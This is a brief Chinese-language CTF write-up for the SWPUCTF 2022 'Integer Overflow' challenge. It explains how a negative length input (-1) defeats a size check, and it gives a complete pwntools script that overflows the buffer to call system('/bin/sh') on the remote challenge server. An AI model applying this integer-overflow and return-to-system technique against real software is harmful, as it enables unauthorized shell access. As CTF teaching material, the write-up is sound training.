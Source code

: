 [[SWPUCTF 2022 新生赛]Integer Overflow | NSSCTF](https://www.nssctf.cn/problem/2634)
![[Pasted image 20240902215332.png]]
![[Pasted image 20240902215351.png]]
走了大致流程可以发现`choice1`函数有溢出点，同时可以发现有`system`和`binsh`
![[Pasted image 20240902215427.png]]
那么就要让v6的值足以让我们进行溢出。输入`-1`即可。
exp:
```python
from pwn import *

elf = ELF('./intoverflow')
context(arch='i386', os='linux', log_level='debug')
local = False
if local:
    p = process('./intoverflow')
else:
    p = remote("node5.anna.nssctf.cn", 24776)

system = elf.symbols['system']
binsh = 0x0804A008

payload = b'a' * (0x20 + 4) + p32(system) + b'aaaa' + p32(binsh)

p.sendlineafter(b'choice:', b'1')
p.sendlineafter(b'name:', b'-1')
p.sendlineafter(b'name?', payload)
p.interactive()
```

